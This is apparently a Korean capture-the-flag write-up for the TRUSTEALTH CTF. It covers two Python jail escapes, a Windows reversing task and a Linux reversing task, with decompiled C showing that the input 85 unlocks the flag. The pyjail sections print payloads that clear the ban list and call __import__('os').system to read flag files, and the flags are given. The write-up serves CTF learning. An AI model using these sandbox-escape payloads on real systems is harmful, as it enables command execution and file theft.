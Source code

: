     연결하고 아무거나 눌러보면 input()을 받고 있다는 것을 알수 있습니다.
![python_jail](https://user-images.githubusercontent.com/36340157/37866529-158d6cda-2fcf-11e8-82e8-6f9150e99bfe.PNG)

# Pyjail
![image](https://user-images.githubusercontent.com/36340157/37866546-68ac9d0a-2fcf-11e8-9c07-62d11ce91f64.png)

     print(dir())
    ['ban_list', 'data', 'j']
     del(ban_list[0:])
     __import__('os').system("cat /home/Pyjail/flag"
벤 리스트를 지우고 공격하면 됩니다.
TRUST{pyjail_1s_s0_h4rd_:(}
  
# Pyjail2
![image](https://user-images.githubusercontent.com/36340157/37866586-0b78b2f8-2fd0-11e8-8440-4af6430718de.png)

    print(dir())
    ['b4n1ist15it', 'data', 'j']
     b4n1ist15it=()
     __import__('os').system("cat /home/Pyjail2/flag")
벤을 지우고 공격입니다.
TRUST{dir_mag1c_N3w_meta_pyja1l_1s_g00d_0r_b4d...?_t3l1_m3}

# What is reversing? 
![image](https://user-images.githubusercontent.com/36340157/37866686-6e9741aa-2fd1-11e8-838a-d02959e3a541.png)

[whatisrev.exe](https://github.com/Jae00s/CTF/blob/master/TRUSTEALTH%20CTF/whatisrev.exe)

![image](https://user-images.githubusercontent.com/36340157/37866663-338af606-2fd1-11e8-8af3-3c55c1066105.png)

    올리디버거로 열어보면 있습니다.

# Linux_Rev
![image](https://user-images.githubusercontent.com/36340157/37866734-f88e135c-2fd1-11e8-8e72-6cd986c2e0f5.png)

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int result; // eax@4
      __int64 v4; // rcx@4
      int v5; // [sp+0h] [bp-10h]@1
      int v6; // [sp+4h] [bp-Ch]@1
      __int64 v7; // [sp+8h] [bp-8h]@1

      v7 = *MK_FP(__FS__, 40LL);
      v6 = 10;
      printf("input : ", argv, envp);
      __isoc99_scanf((__int64)"%d", (__int64)&v5);
      v6 = 12 * (v6 - 3) + 1;
      printf("%d\n", (unsigned int)v6);
      if ( v6 == v5 )
        flag();
      else
        puts("Wrong");
      result = 0;
      v4 = *MK_FP(__FS__, 40LL) ^ v7;
      return result;
    }
    85를 입력받으면 flag()를 실행시키므로 85입력